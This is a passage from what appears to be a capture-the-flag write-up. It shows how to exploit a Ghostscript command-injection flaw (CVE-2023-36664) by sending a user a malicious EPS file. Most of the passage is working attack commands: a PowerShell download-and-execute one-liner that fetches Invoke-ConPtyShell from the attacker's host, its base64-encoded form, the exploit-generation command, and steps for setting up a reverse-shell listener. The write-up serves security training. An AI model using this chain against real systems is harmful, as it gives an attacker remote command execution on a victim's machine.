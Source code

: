 We have access and we can see that there is a mail of drbrown that want us to send a .eps file that can be opened with Ghostscript.

Searching in google for ghostscript exploits we end on [this page](https://vsociety.medium.com/cve-2023-36664-command-injection-with-ghostscript-poc-exploit-97c1badce0af) that explains how we can create a malicious eps file that executes commands on victim.

I will craft one that retrieves me a shell downloading and executing the content of the [script Invoke-ConPtyShell](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1) to gain access to a fully interactive reverse shell in windows.

> I recommend to open a new window of the terminal to receive the windows ConPtyShell and specify the rows and columns of that new window for having the best experience.


```bash
❯ stty size
44 184

❯ echo "IEX(New-Object Net.WebClient).downloadString(\"http://<Your IP>/Invoke-ConPtyShell.ps1\"); Invoke-ConPtyShell -RemoteIp <Your IP> -RemotePort <Your Port> -Rows <Your rows of terminal> -Cols <Columns of terminal>" | iconv -t utf16le | base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAMgA0AC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAiACkAOwAgAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsACAALQBSAGUAbQBvAHQAZQBJAHAAIAAxADAALgAxADAALgAxADQALgAxADIANAAgAC0AUgBlAG0AbwB0AGUAUABvAHIAdAAgADQANAAzACAALQBSAG8AdwBzACAANAA0ACAALQBDAG8AbABzACAAMQA4ADQACgA=                                                                                                                                                                                        
❯ payload="powershell -enc <Your payload of above>"
                                                                                                                                                                                        
❯ python3 ghostscript_exploit.py --generate --payload "$payload" --filename project --extension eps
[+] Generated EPS payload file: project.eps
```

Now spawn a nc listener on the port you specified, a python webserver to interpret the Invoke-ConPtyShell from the victim's machine, send the file to drbrown and wait for reverse shell:
